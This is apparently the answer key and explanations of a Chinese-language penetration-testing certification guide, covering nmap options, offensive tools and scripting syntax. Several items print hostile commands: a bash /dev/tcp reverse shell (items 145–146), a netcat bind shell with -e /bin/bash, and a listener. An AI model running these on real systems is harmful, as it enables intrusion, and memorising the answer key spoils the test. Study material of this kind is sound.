### 196. B. 在此场景中，输入了一条命令，攻击者正试图访问 `/etc` 目录中的密码文件。命令注入是一种攻击，其目标是通过易受攻击的应用程序在主机操作系统上执行任意命令。当应用程序将不安全的用户提供的数据（表单、cookie、HTTP 头等）传递给系统 shell 时，就可能发生命令注入攻击。

### 197. B. 跨站脚本（XSS）攻击发生在 Web 应用程序允许攻击者执行 HTML 注入，将自己的 HTML 代码插入到网页中时。在此场景中，攻击者正试图使用 Web 浏览器通过 JavaScript 代码操纵 HTML iframe。

### 198. B. Keylogger 是软件和硬件，可以作为持续利用过程的一部分发挥作用。捕获击键可以洞察用户采取的操作，并且可以成为凭据和其他机密信息的宝贵来源。Keylogger 是跟踪或记录键盘上敲击键的软件。这通常出于恶意目的进行，以收集账户信息、信用卡号码、用户名、密码和其他私人数据。

### 199. D. 竞争条件发生在代码段的安全性取决于系统内事件发生顺序时。检查时到使用时（TOCTTOU）问题是一种竞争条件，当程序在资源请求之前过早地检查访问权限时就会发生。

### 200. A. 网站使用 HTTP cookie 在一段时间内保持会话。如果测试人员能够获取用户会话 cookie 的副本，那么他们就可以使用该 cookie 冒充用户的浏览器并劫持已认证的会话。能够获取用于验证用户 Web 会话的会话 cookie 的攻击者可以劫持该会话并接管用户的账户。用于身份验证的 cookie 应始终安全创建，并且仅通过安全、加密的通信通道传输。

# 第 4 章：渗透测试工具

### 1. A. `-sS` 选项会导致 `nmap` 实用程序对指定的目标系统进行 SYN 端口扫描。

### 2. D and E. `nmap 192.168.1.0/24` 命令会导致 `nmap` 实用程序扫描子网上的每个系统，从 .1 到 .254。同样，`nmap 192.168.1.1-254` 命令会导致 `nmap` 实用程序扫描子网上的每个系统，从 .1 到 .254。

### 3. A and B. `nmap 192.168.1.1 -sS` 命令会导致 `nmap` 实用程序对指定的目标系统进行 SYN 端口扫描。同样，`nmap 192.168.1.1` 命令也会导致 `nmap` 实用程序对指定的目标系统进行 SYN 端口扫描，因为如果未指定其他扫描类型，SYN 扫描是默认使用的。

### 4. D. `nmap 192.168.1.1 -O` 命令会导致 `nmap` 实用程序使用 TCP/IP 堆栈指纹识别来确定远程主机上安装的操作系统。

### 5. A. `nmap 192.168.1.1 -A` 命令启用对远程主机的操作系统检测、服务版本检测、脚本扫描和 traceroute。

### 6. C. `nmap 192.168.1.1 -sT` 命令会导致 `nmap` 实用程序对指定的目标系统进行 TCP 连接扫描。

### 7. D. `nmap 192.168.1.1 -sU` 命令会导致 `nmap` 实用程序对指定的目标系统进行 UDP 端口扫描。

### 8. A. `nmap 192.168.1.0/24 -sL` 命令会导致 `nmap` 实用程序扫描指定范围的 IP 地址以查找主机。它只是列出要扫描的目标。

### 9. A. `nmap 192.168.1.1 -sA` 命令会导致 `nmap` 实用程序对指定的目标系统进行 TCP ACK 扫描。

### 10. C. `nmap 192.168.1.0/24 --exclude 192.168.1.250` 命令会导致 `nmap` 实用程序扫描子网上从 .1 到 .254 的每个系统，但跳过 IP 地址为 192.168.1.250 的主机。

### 11. A. `nmap 192.168.1.10-13 -sA` 命令会导致 `nmap` 实用程序对 IP 地址为 192.168.1.10、192.168.1.11 和 192.168.1.13 的目标系统进行 TCP ACK 扫描。

### 12. C. 由于要扫描的主机没有连续的 IP 地址，因此必须单独指定每个主机。在这种情况下，`nmap 192.168.1.10 192.168.1.11 192.168.1.12 192.168.1.13 192.168.1.15 -sU` 命令会导致 `nmap` 实用程序对每个指定的系统进行 UDP 端口扫描。

### 13. B. `nmap 192.168.1.1-254 -sn` 命令会导致 `nmap` 实用程序扫描指定范围的 IP 地址以查找主机。它列出找到的所有主机，而不实际扫描其任何端口。

### 14. D. `nmap 192.168.1.1-254 -p 23` 命令会导致 `nmap` 实用程序扫描指定范围的 IP 地址以查找 Telnet 端口 23 打开的主机。

### 15. A. `nmap 192.168.1.2 -p-` 命令会导致 `nmap` 实用程序扫描指定主机上的所有端口。请注意，由于涉及的端口数量，扫描完成需要一些时间。

### 16. D. 当 `nmap` 指示端口被过滤时，通常意味着相关服务已安装并正在运行，但主机防火墙正在阻止该端口。

### 17. B. 当 `nmap` 指示端口打开时，通常意味着相关服务已安装、正在运行，并且可以通过主机防火墙访问。

### 18. A. 当 `nmap` 指示端口关闭时，通常意味着相关服务根本未安装，或者已安装但当前未运行。因此，没有任何内容在其相关端口上监听。

### 19. A. `-sS` 选项会导致 `nmap` 运行 TCP SYN 扫描。在此扫描中，`nmap` 向目标主机发送 TCP SYN 数据包，然后目标主机以 SYN ACK 数据包进行响应。但是，而不是完成连接，`nmap` 向目标主机发送重置数据包。

### 20. D. 本题中显示的所有选项都会导致 `nmap` 检测目标主机上运行的服务。但是，只有 `-sV` 选项可与 `nmap` 一起使用以检测这些服务的版本号。

### 21. C. `-p U:20,T:21,22` 命令告诉 `nmap` 只扫描 UDP 端口 20 和 TCP 端口 21 和 22。本题中的其他选项也会扫描这些端口；但是，它们还会扫描许多其他不需要的端口。

### 22. A and C. `-p http,https` 选项或 `-p 80,443` 选项都可与 `nmap` 一起使用以扫描主机上的 Web 服务器服务。

### 23. B. `--top-ports 1000` 选项告诉 `nmap` 扫描 1,000 个最流行的网络服务使用的默认端口。`--exclude-ports 53` 选项告诉 `nmap` 在扫描期间跳过端口 53（DNS 服务器使用的默认端口）。


# Nmap 和渗透测试工具参考

24. C. `-iL` `file_name` 选项告诉 `nmap` 读取指定的文件并仅扫描文件中列出的主机。

25. A. `-Pn` 选项告诉 `nmap` 在不实际发现主机的情况下扫描主机（或整个子网）。这种类型的扫描在渗透测试期间应避免，因为它花费很长时间；范围内每个 IP 地址的每个端口都会被扫描，无论 IP 地址是否有效。因此，它还会产生大量流量，可能被 IDS 或 IPS 工具检测到。

26. A. `-T1` 选项告诉 `nmap` 以 *隐蔽* 模式扫描。在此模式下，端口每 15 秒扫描一次。因此，这种类型的扫描非常慢。但是，缓慢也使扫描更难被检测到。

27. D. `-T4` 选项告诉 `nmap` 以 *激进* 模式扫描。这种类型的扫描运行速度相当快。但是，速度也使扫描更容易被 IDS/IPS 系统或目标的 IT 人员检测到。

28. C. 如果 `nmap` 命令在未指定定时选项的情况下运行，则默认使用 `-T3` 选项。这告诉 `nmap` 以 *正常* 模式扫描。

29. A. `-T0` 选项使 `nmap` 以 *偏执* 模式扫描，在该模式下，每五分钟仅扫描目标主机上的一个端口。虽然此模式可用于运行最隐蔽的扫描，但也会使它们运行速度极慢。

30. A. `-T5` 选项使 `nmap` 以 *疯狂* 模式扫描。这是 `nmap` 扫描中最快的类型。但是，速度也使其更容易被 IDS/IPS 工具或目标的 IT 人员检测到。

31. C. `-T2` 选项使 `nmap` 以 *礼貌* 模式扫描。这种类型的扫描运行速度相当慢。但是，缓慢也使扫描更难被检测到。

32. B. `-oN` 选项使 `nmap` 将扫描输出写入标准文本文件。你必须使用此选项指定文件名。

33. A. `-oX` 选项使 `nmap` 将扫描输出写入 XML 格式的文本文件。你必须使用此选项指定文件名。

34. D. `-oG` 选项使 `nmap` 将扫描输出写入文本文件，其格式允许使用 `grep` 命令快速搜索。你必须使用此选项指定文件名。

35. C. `-oA` 选项使 `nmap` 同时将扫描输出写入普通文本文件、XML 格式的文本文件以及可 grep 的文本文件。你必须使用此选项指定基本文件名。每个使用此基本文件名生成的文件都会添加不同的扩展名。普通文件将具有 `.nmap` 扩展名，可 grep 的文件将具有 `.gnmap` 扩展名，XML 文件将具有 `.xml` 扩展名。

36. A. `-f` 选项使 `nmap` 使用微小、碎片化的数据包进行扫描。有时这些小数据包可能更难被数据包过滤防火墙正确分析。

37. B. `-D` 选项使 `nmap` 从伪造的 IP 地址发送扫描。你可以使用此选项指定一个或多个虚假源 IP 地址。

38. D. `-iR` 选项使 `nmap` 扫描指定数量的随机主机。例如，如果你想扫描 50 个随机主机，你将使用 `-iR 50` 选项与 `nmap` 命令一起使用。

39. C. `-F` 选项使 `nmap` 扫描指定数量主机以查找 100 个最常用的 IP 端口。例如，此扫描将包括端口 20、21、23、25、53、80 等。有时，这被称为 *快速端口扫描*。

40. A. `--proxies` 选项使 `nmap` 通过代理服务器中继连接。你需要在此选项中包含一个或多个代理服务器的 IP 地址。

41. A 和 B. 在此示例中，`nmap` 实用程序用于运行 TCP SYN 扫描。`nmap 10.0.0.1` 和 `nmap 10.0.0.1 -sS` 命令都可用于运行这种类型的扫描。

42. B. 在此示例中，`nmap` 实用程序用于运行 TCP connect 扫描。`nmap 10.0.0.1 -sT` 命令可用于运行这种类型的扫描。请注意，该命令的输出几乎与 TCP SYN 扫描的输出相同。

43. C. 在此示例中，`nmap` 实用程序用于运行 UDP 扫描。`nmap 10.0.0.1 -sU` 命令可用于运行这种类型的扫描。请注意，该命令的输出几乎与 TCP SYN 扫描的输出相同；然而，它列出的是 UDP 端口而不是 TCP 端口。

44. A. 在此示例中，`nmap` 实用程序用于运行 TCP ACK 端口扫描。`nmap 10.0.0.1 -sA` 命令可用于运行这种类型的扫描。

45. A. 在此示例中，`nmap` 实用程序用于运行 TCP SYN 扫描。然而，`-v` 选项被包含在内以增加输出的详细程度。

46. C. 在此示例中，`nmap` 实用程序用于运行 UDP 扫描。然而，`-vv` 选项被包含在内以大幅增加输出的详细程度。

47. B. 在此示例中，`nmap` 实用程序仅用于列出可用目标。这是通过使用 `-sL` 选项运行 `nmap` 来完成的。这会使 `nmap` 列出主机，但不实际扫描它们。

48. C. 在此示例中，`nmap` 实用程序用于发现可用目标。这是通过使用 `-sn` 选项运行 `nmap` 来完成的。这会使 `nmap` 发现主机，但不实际扫描它们的任何端口。

49. A. 在此示例中，`nmap` 实用程序用于扫描 IP 地址范围内列出的 10 台主机上的端口 80。这是通过使用 `-p 80` 选项运行 `nmap` 来完成的。

50. C. 在此示例中，`nmap` 实用程序用于扫描命令中列出的主机上的开放端口，然后确定使用这些端口的服务的版本。这是通过使用 `-sV` 选项运行 `nmap` 来完成的。

51. A 和 D. `whois` 和 `nslookup` 实用程序可用于被动地对目标组织进行侦察。由于它们报告的信息可供公众获取，使用这些工具几乎不太可能引起任何怀疑。

52. B 和 C. `nmap` 和 `hping` 实用程序可用于主动枚举和指纹识别目标系统。

53. A 和 B. `John the Ripper` 以及 `Cain and Abel` 可用于从用户账户的离线数据库中破解密码，例如 Linux 系统中的 `shadow` 和 `passwd` 文件。

54. D 和 E. `OWASP ZAP` 以及 `Nessus` 可用于扫描目标是否存在漏洞。

55. B. `SQLmap` 可用于暴力破解 SQL 数据库的密码。

56. A. `Mimikatz` 可用于破坏基于 Kerberos 的身份验证系统，包括生成“黄金”和“白银”Kerberos 票据。

57. A 和 C. `Nikto` 和 `W3AF` 实用程序通常用于扫描目标是否存在漏洞。

58. D 和 E. `Medusa` 和 `Hydra` 实用程序都可用于进行暴力密码攻击。

59. B 和 D. `Patator` 和 `Aircrack-ng` 实用程序都可用于进行暴力密码攻击。`Patator` 可用于破坏各种网络服务，例如 `FTP`、`SNMP` 和 `SSH` 服务器。`Aircrack-ng` 用于暴力破解无线网络。

60. C 和 D. `Empire` 和 `PowerSploit` 实用程序都基于 `Windows PowerShell`。本质上，它们是一组可用于进行各种利用的 `PowerShell` 脚本。

61. B. `Social Engineer Toolkit` (`SET`) 是一个开源渗透测试实用程序，旨在进行社会工程利用。

62. A. `Browser Exploitation Framework` (`BeEF`) 是一个渗透测试实用程序，旨在使用客户端攻击利用 Web 浏览器的弱点。

63. D. `ncat` 实用程序可用于读取、写入、重定向和加密网络数据。例如，它可用于与各种服务器建立 shell 会话，包括 Windows、Linux 和 UNIX 系统。

64. A 和 B. `IDA` 和 `Hopper` 都可用于反编译。在此过程中，可执行文件被反编译为源代码，使你能够检查其是否存在漏洞。

65. C 和 E. `foremost` 和 `FTK` 都是取证工具。它们用于收集和分析网络犯罪现场的数字证据。


# 渗透测试工具和脚本语法

## 工具和实用程序

66. A. 虽然 `Nikto` 通常被认为是由渗透测试人员使用的漏洞扫描器，但它也可以被系统管理员用来验证其网络内的配置合规性，特别是其 Web 服务器的配置。

67. D. `proxychains` 工具允许你对目标组织执行渗透测试任务，并使生成的网络流量看起来像是来自中间代理系统。

68. A 和 D. `APK Studio` 和 `APKX` 都可以用来调试甚至反编译 Android 可执行文件。

69. A 和 D. `AFL` 和 `Peach` 都可以用于在软件保证过程中对应用程序进行模糊测试。

70. A 和 B. `Findsecbugs` 和 Yet Another Source Code Analyzer (`YASCA`) 都可以用于在软件保证过程中执行静态应用程序安全测试 (SAST) 或动态应用程序安全测试 (DAST)。

71. C. `hashcat` 实用程序可以配置为使用 GPU 而不是 CPU 来执行密码破解操作。这可以显著加快进程，因为 GPU 可以比标准 CPU 快得多地执行此任务。

72. A 和 E. 许多不成功的登录尝试是渗透测试人员正在使用暴力密码破解工具访问系统的明确迹象。`Hydra` 和 `Medusa` 实用程序都能够运行暴力攻击。

73. B. 此输出由 `Medusa` 实用程序创建。`Medusa` 是一种暴力密码破解工具，它会一个接一个地向给定用户账户（在本例中为管理员）发送密码，希望找到正确的密码。

74. B. `CeWL` 实用程序可以配置为爬取目标组织的网站并从网站收集可能被员工用作密码的关键字，然后将它们保存在列表中。然后该列表可用于运行暴力密码攻击。

75. D. `Dirbuster` 实用程序是一种暴力工具，可由渗透测试人员用来发现 Web 服务器或应用程序服务器上的目录和文件，包括隐藏文件或目录。

76. A. 此输出由 `John the Ripper` 创建。此凭证测试工具是一种暴力密码破解实用程序。在此示例中，已发现 root 用户的密码 (`toor`)。

77. A. 此输出由 `whois` 实用程序创建。此 OSINT 工具用于收集有关目标组织域的公共信息。

78. D 和 E. 你可以使用 `Kismet` 或 `WiFite` 来尝试破解目标组织的无线网络。你也可以使用 `Aircrack-ng` 来实现此目的。

79. B 和 C. 你可以使用 `Burp Suite` 或 `OWASP ZAP`。这两个工具都可用于拦截在运行 Web 浏览器的用户与目标组织 Web 应用程序服务器之间流动的网络流量。通过代理连接，渗透测试人员可以读取被拦截流量的内容。

80. A. `netcat` 实用程序可用于设置反向 shell 漏洞利用，允许测试人员远程控制被入侵的系统。

81. D. `ncat` 实用程序是旧版 `netcat` 实用程序的更新和改进版本。

82. A 或 B. `ncat` 或 `netcat` 远程访问工具都可用于设置绑定 shell 漏洞利用。

83. C. `Drozer` 实用程序提供了一个完整的 security auditing 和 attack 框架，专为运行 Android 操作系统的移动设备设计。

84. B. `APK Studio` 是一个可用于逆向工程 `APK` 可执行文件并分析其漏洞的工具。

85. A. Android `APK` Decompilation for the Lazy (`APKX`) 是一个 `Python` 包装器，可以直接从 Android `APK` 可执行文件中提取 Java 源代码。

86. D. `searchsploit` 实用程序是一个命令行搜索工具，用于查询在线 `Exploit-DB` 数据库以查找已知漏洞利用。

87. D. `responder` 实用程序可用于进行 `LLMNR` 和 `NBT-NS` 中毒，可能允许渗透测试人员将客户端重定向到她的笔记本电脑并捕获其凭证在用户名和哈希密码的形式。

88. C. `impacket` 渗透测试工具由一组 `Python` 类组成，用于对网络协议进行低级访问，例如 `SMB` 和 `MSRPC` 协议。

89. A. `Metasploit Framework` (`MSF`) 渗透测试工具提供了大量可用于入侵目标组织网络的漏洞利用。

## 脚本语法

90. B 和 D. 在声明变量时，`Bash` 和 `Python` 使用相同的语法：`variable_name = value`。

91. A 和 C. 在声明变量时，`PowerShell` 使用的语法为 `$variable_name = value`。
`Ruby` 在声明全局变量时使用相同的语法。

92. C. 在声明局部变量时，`Ruby` 使用的语法为 `_variable_name = value`。

93. C 和 D. 在声明数组时，`Ruby` 和 `Python` 使用相同的语法：`array_name = [value1, value2, value3, ...]`。

94. B. 在声明数组时，`Bash` 使用以下语法：`array_name = (value1, value2, value3, ...)`。

95. A. 在声明数组时，`PowerShell` 使用以下语法：`$array_name = @(value1, value2, value3, ...)`。

96. B. 在引用变量值时，`Bash` 使用以下语法：`${variable_name}`。在此示例中，`echo` 命令被告知在屏幕上显示名为 `ServerName` 的变量的值。

97. B. 在引用数组中的值时，`Bash` 使用以下语法：`${array_name[position]}`。在此示例中，`echo` 命令被告知在屏幕上显示名为 `PrimeNumArray` 的数组的第二个值。

98. A. 在引用数组中的值时，`PowerShell` 使用以下语法：`$array_name[position]`。在此示例中，`echo` 命令被告知在屏幕上显示名为 `PrimeNumArray` 的数组的第二个值。

99. D. 在引用数组中的值时，`Python` 使用以下语法：`(array_name[position])`。在此示例中，`print` 命令被告知打印名为 `PrimeNumArray` 的数组的第二个值。

100. C. 在引用数组中的值时，`Ruby` 使用以下语法：`array_name[position]`。在此示例中，`puts` 命令被告知使用名为 `PrimeNumArray` 的数组的第二个值。

101. A. 在 Bash 脚本中创建关联数组时，使用以下语法：`array_name[element_name] = value`。
在此示例中，行 `Target[HostName] = FS1` 将值 `FS1` 分配给 `Target` 数组中名为 `HostName` 的元素。

102. D. 在 Ruby 脚本中创建关联数组时，使用以下语法：`_array_name = {"element_name" => "value"}`。
在此示例中，行 `_Target = {"HostName" => "FS1"}` 将值 `FS1` 分配给 `Target` 数组中名为 `HostName` 的元素。

103. C. 在 PowerShell 脚本中创建关联数组时，使用以下语法：`$array_name.element_name = "value"`。
在此示例中，行 `$Target.HostName = 'FS1'` 将值 `FS1` 分配给 `Target` 数组中名为 `HostName` 的元素。

104. B. 在 PowerShell 脚本中创建关联数组时，使用以下语法：`array_name = [{"element_name":"value"}]`。
在此示例中，行 `Target = [{"HostName":"FS1"}]` 将值 `FS1` 分配给 `Target` 数组中名为 `HostName` 的元素。

105. B. 在 Ruby 脚本中比较两个值是否相等时，使用 `==` 关系运算符。

106. A 和 D. 在 Python 脚本中比较两个值是否不相等时，可以使用 `<>` 或 `!=` 关系运算符。

107. B. 在 Python 脚本中比较两个值是否相等时，使用 `==` 关系运算符。


# 脚本语言比较与工具说明

108. C. 在 PowerShell 脚本中比较两个值是否相等时，使用 `-eq` 关系运算符。

109. C. 在 Bash 脚本中比较两个整数值大小以判断一个是否大于另一个时，使用 `-gt` 关系运算符。

110. A. `>` 关系运算符可在 Python 和 Ruby 中同时使用，以测试一个值是否数值上大于另一个值。

111. C. `-ge` 关系运算符可在 Bash 和 PowerShell 中同时使用，以测试一个值是否数值上大于或等于另一个值。

112. B. `-gt` 关系运算符可在 Bash 和 PowerShell 中同时使用，以测试一个值是否数值上大于另一个值。

113. A. `>=` 关系运算符可在 Python 和 Ruby 中同时使用，以测试一个值是否数值上大于或等于另一个值。

114. B. `-lt` 关系运算符可在 Bash 和 PowerShell 中同时使用，以测试一个值是否数值上小于另一个值。

115. D. `<` 关系运算符可在 Python 和 Ruby 中同时使用，以测试一个值是否数值上小于另一个值。

116. C. `-le` 关系运算符可在 Bash 和 PowerShell 中同时使用，以测试一个值是否数值上小于或等于另一个值。

117. A. `<=` 关系运算符可在 Python 和 Ruby 中同时使用，以测试一个值是否数值上小于或等于另一个值。

118. B. 在 Bash 脚本中添加 `read TargetHost` 行会导致它接受用户在命令行输入的内容并将其分配给名为 `TargetHost` 的变量。

119. A. 在 Bash 脚本中添加 `echo $TargetHost` 行会导致它在屏幕上显示名为 `TargetHost` 的变量的值。

120. C. `test` 命令可在 `if/then` 流程控制结构内部使用，以评估指定的条件是否为真。

121. A. Ruby 中的 `if/then` 流程控制结构使用以下语法：
```
if condition
  commands...
else
  commands...
end
```

122. B. PowerShell 中的 `if/then` 流程控制结构使用以下语法：
```
if condition {
  commands...
} Else {
  commands...
}
```

123. C. Bash 中的 `if/then` 流程控制结构使用以下语法：
```
if condition then
  commands...
else
  commands...
fi
```

124. E. `case` 结构是评估用户对多个选项的选择并据此运行适当命令集的最佳选项。

125. A. `while` 循环将不断重复处理，直到指定的条件求值为 false。

126. D. `if/then/else` 结构被视为流程控制结构，因为它根据指定条件的求值结果将脚本分支到多个方向之一。

127. C. `until` 循环结构将只要指定的条件求值为 false 就不断重复处理。

128. B. `for` 循环结构将处理指定次数。

129. D. 在 PowerShell 脚本中添加 `$TargetHost = read-host -Prompt` 行会导致它接受用户在命令行输入的内容并将其分配给名为 `TargetHost` 的变量。

130. A. 在 PowerShell 脚本中添加 `echo $TargetHost` 行会导致它在屏幕上显示名为 `TargetHost` 的变量的值。

131. C. 在 Ruby 脚本中添加 `TargetHost = gets` 行会导致它接受用户在命令行输入的内容并将其分配给名为 `TargetHost` 的变量。

132. D. 在 Ruby 脚本中添加 `puts TargetHost` 行会导致它在屏幕上显示名为 `TargetHost` 的变量的值。

133. A. 在 Python 脚本中添加 `TargetHost = input('Please enter a hostname:')` 行会导致它接受用户在命令行输入的内容并将其分配给名为 `TargetHost` 的变量。

134. B. 在 Ruby 脚本中添加 `print (TargetHost)` 行会导致它在屏幕上显示名为 `TargetHost` 的变量的值。

135. B. `#!/bin/bash` 元素必须包含在每个 Bash shell 脚本的开头。

136. A 和 E. 你可以输入 `/bin/bash ~/myexploit` 或 `chmod u+x ~/myexploit` 来使脚本执行。

137. B. `declare -i TOTAL` 命令将创建 `TOTAL` 变量并将其类型设为整数。

138. C. 在 Bash 脚本中添加 `tail /var/log/firewall 1> lastevents 2> &1` 命令会将 stdout 和 stderr 都发送到同一个文件。

139. D. `Responder` 是一个工具包，用于响应网络上 Windows 系统的 NetBIOS 查询。`Responder` 在利用 NetBIOS 响应时是一个强大的工具。它可以针对单个系统或整个本地网络，允许你分析或响应 NetBIOS 名称服务，假装成查询的目标系统。

140. C 和 E. 有多种工具可协助进行此 OSINT 收集：
* `Censys` 是一个基于网络的工具，它探测互联网上的 IP 地址，然后通过搜索引擎为渗透测试人员提供访问该信息的方式。
* Fingerprinting Organizations with Collected Archives (`FOCA`) 是一款开源工具，用于在 Office 文档、PDF 和其他常见文件格式中查找元数据。
* `Maltego` 是一款商业产品，可协助可视化从 OSINT 工作中收集的数据。
* `nslookup` 工具有助于识别与组织关联的 IP 地址。`Recon-ng` 是一个模块化网络侦察框架，用于组织和管理 OSINT 工作。
* `Shodan` 是一个专用搜索引擎，用于从公共来源发现易受攻击的物联网 (IoT) 设备。
* `theHarvester` 搜索搜索引擎和其他资源以查找有关组织的电子邮件地址、员工姓名和基础设施详细信息。`whois` 工具从公共记录中收集有关域名所有权的信息。

141. B. 在凭证暴力破解攻击中，测试人员会尝试使用每个用户名和密码登录应用程序。`Hydra` 是一款暴力破解工具，可使用密码猜测破解系统。

142. C. 在此场景中，测试人员正在使用 Metasploit `PSEXEC` 模块。使用 Metasploit，测试人员可以利用系统并执行哈希转储以提取系统的哈希。测试人员随后可以使用 `PSEXEC` 模块将哈希传递给网络上的另一台系统。示例展示了如何设置 `SMBPASS` 选项并执行 pass-the-hash 攻击，从而获得网络内远程系统的访问权限。pass-the-hash 攻击是一种利用方式，测试人员获取已哈希的用户凭证，而不对其进行破解，就重复使用它以欺骗身份验证系统在同一网络上创建新的已认证会话。

143. C. 通过在命令行运行 `msfconsole` 启动 Metasploit。`msfconsole` 命令位于 `/usr/share/metasploit-framework/msfconsole` 目录中

144. B. `Mimikatz` 是一个开源实用程序，可使用其 `sekurlsa` 模块查看来自 Windows 本地安全机构子系统服务 (`LSASS`) 的凭证信息，其中包括明文密码和 Kerberos 票据，这些信息随后可用于 pass-the-hash 和 pass-the-ticket 等攻击。在此场景中，问题 however 指出“over the wire”。`Mimikatz` 是唯一不能以这种方式使用的工具。

145. A. 反向 shell 在端口上打开一个通信通道并等待传入连接。客户端机器充当服务器并向测试人员机器发起连接。这是使用以下命令完成的操作：
```
bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1
```


根据选项，A 是最佳选项。B 和 C 不会起作用，因为它们使用的是 `<SOURCEIP>` 而不是 `<DESTINATIONIP>`。选项 D 不正确，因为它使用了不正确的语法。

### 146. A.
在 `bash` shell 中，可以打开网络套接字以通过它传递数据。可以使用 `/dev/tcp/<host>/<port>` 打开 TCP 套接字。`Bash` 正在尝试打开到相应套接字的 TCP 连接。因此，在此示例中，已执行端口扫描。

代码的分解如下：
- `/bin/bash -i` 调用一个交互式 `bash` shell。
- `> &/dev/tcp/<host>/<port>` 将该 shell 管道传输给测试者。
- `0<&1 2>&1` 将标准输入连接到标准输出。然后它指定对标准错误 (`2>`) 做同样的操作。

### 147. C.
`Hydra` 设计为支持 NTLM 哈希作为密码。`Hashcat` 是一款密码破解和恢复工具。`Drozer` 是 Android 安全评估的框架。`Kismet` 是 802.11 第二层无线网络检测器、嗅探器和入侵检测系统。`Hydra`，通常称为 `thc-hydra`，是一款暴力字典攻击工具，旨在针对多种协议和服务工作。

### 148. A.
浏览器利用框架 (`BeEF`) 是为此类攻击设计的。`BeEF` 提供了一套自动化工具包，用于利用社会工程学接管客户端的 Web 浏览器。然后测试者可以使用各种网络钓鱼和社会工程技术让员工访问该站点。

### 149. A.
自定义词表 (`CeWL`) 生成器是一款 Ruby 应用程序，允许测试者根据 URL 和深度设置对网站进行扫描，然后根据找到的文件和网页生成词表。对目标组织的网站运行 `CeWL` 可以帮助生成自定义词表。如果您已收集了有关目标组织的大量信息，则构建自定义词表会特别有用。

### 150. A.
在此场景中，给定的 `PowerShell` 命令将执行远程脚本。通过使用 `PowerShell` `IEX` 命令，它将调用一个表达式。`IEX` cmdlet 将指定的字符串作为命令进行求值或运行，并返回表达式或命令的结果。`PowerShell` `Invoke-Command` cmdlet 在本地或远程计算机上运行命令并返回命令的所有输出，包括错误。通过使用单个 `Invoke-Command` 命令，您可以在多台计算机上运行命令。

### 151. A.
网络映射器 (`Nmap`) 通过发送数据包并分析响应来发现计算机网络上的主机和服务。`Nmap` 将识别客户端系统上运行的设备，发现可用的主机和服务，找到开放端口并检测安全风险。在此场景中，组织未禁用 Telnet，因为端口 23 仍然开放。`Telnet` 是一种基于可靠面向连接传输的客户端-服务器协议。通常，此协议用于通过端口 23 建立到传输控制协议 (`TCP`) 的连接，其中 Telnet 服务器应用程序 (`telnetd`) 正在监听。

### 152. C.
`Hping` 是一款命令行工具，允许测试者生成网络流量。`Hping` 很受欢迎，因为它允许您创建自定义数据包。在此场景中，您将向 TCP 端口 80 发送 TCP SYN。`-S` 开关要求 `hping` 发送 SYN 流量，`-V` 开关为详细模式，`-p` 开关表示端口。

### 153. A.
`Netcat` 可在几秒钟内设置 Telnet 服务器。您可以使用 `-e` 参数指定 `Netcat` 在成功连接时要运行的 shell。在此场景中，正确的语法应为 `nc -lp 444 -e /bin/bash`。`nc` 告诉 Windows 使用以下参数运行 `nc.exe` 文件：
- `-l`：监听模式，用于入站连接
- `-p`：指定要监听连接的端口
- `-e`：指定端口连接后要运行的程序（`cmd.exe`）
- `-v`：指定为详细模式，在标准错误上打印消息，例如连接发生时

### 154. A.
`nmap` 是最常用的命令行漏洞扫描器，是一款免费的开源工具。它提供广泛的功能，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。`nmap` 是一款端口扫描器。要扫描端口，您需要使用 `-p <port ranges>`（仅扫描指定端口）。此选项指定要扫描的端口并覆盖默认扫描。可接受单个端口号或范围。范围由连字符分隔（例如，`1-1023`）。范围的开始和/或结束值可以省略，导致 `nmap` 分别使用 1 和 65535。因此，您可以指定 `-p-` 来扫描 1 到 65535 的端口。对系统进行端口扫描只需安装 `nmap` 并提供目标系统的主机名或 IP 地址。

### 155. D.
被动侦察也称为开源情报 (`OSINT`)。被动侦察背后的想法是仅使用公开可用资源收集有关目标的信息。`Shodan` 是一款专用搜索引擎，通过使用各种过滤器提供对连接到互联网的特定类型计算机和设备的发现。`Peach` 是一款模糊测试工具，`OpenVAS` 执行网络漏洞扫描，而 `CeWL` 是一款自定义词表生成器，可搜索网站中可能用于密码猜测攻击的关键字。

### 156. D and F.
在此场景中，最佳选项是 `SSH` 和 `Wireshark`。安全 Shell (`SSH`) 在系统之间提供安全的加密连接。`SSH` 通过加密连接提供远程 shell 访问。`SSH` 用于通过安全的命令行访问系统，通常通过 TCP 端口 22，并且存在于各种类型的设备和系统上。由于 `SSH` 非常常见，因此测试提供 `SSH` 服务的系统对渗透测试员来说是一个非常有吸引力的选择。`Wireshark` 是一款协议分析器，允许渗透测试员窃听和剖析网络流量。`Wireshark` 还允许捕获无线网络的网络流量。

### 157. B and C.
鉴于此场景，单词 `let` 无需包含在脚本中，因此可以将其删除，并且在 `Bash` 中，`=` 的等价物是 `-eq`，它是算术二元运算符。完成这些修改后，脚本将按预期工作。

### 158. A.
`PowerShell` 在赋值操作中要求在数组名称前使用 `$`。然后数组的元素作为逗号分隔列表提供。选项 B 在 `Bash` 中有效，选项 C 在 `Ruby` 或 `Python` 中有效，而选项 D 不遵循 `PowerShell` 命令的正确语法。`PowerShell` 在声明和使用变量的方式上要简单得多。您只需记住在变量名称前加上 `$`，无论是设置、更改还是检索存储在该变量中的值。

### 159. A.
测试者希望创建一个 Netcat 监听器，等待来自目标机器的入站 shell。为了获取 shell，`Netcat` 使用 `nc -nvlp 443` 监听传入连接 使用此语法，测试者告诉 `Netcat` (`nc`) 不解析名称 (`-n`)，在连接发生时以详细模式打印 (`-v`)，并在给定本地端口 (`-p`) 上监听 (`-l`)。

### 160. D.
在此场景中，问题特别指出“名称解析请求”。在这种情况下，`Responder` 是最佳选择。`Responder` 是一款用于回答网络上 Windows 系统的 NetBIOS 查询的工具包。`Tcpdump` 是一种数据包分析器软件实用程序，用于监视和记录在网络和执行它的计算机之间传输的 TCP/IP 流量。`Ettercap` 是一款用于局域网中间人攻击的免费开源网络安全工具。`Medusa` 是一款支持多种协议和服务的暴力登录攻击工具。


### 161. A and F
`nmap` 最为人知的功能之一是使用 TCP/IP 栈指纹识别进行远程操作系统检测。`Nmap` 向远程主机发送一系列 TCP 和 UDP 数据包并检查响应。
- `-iL <inputfilename>`：这是从主机/网络列表中输入的。
- `-sV`：探测开放端口以确定服务/版本信息。

### 162. D
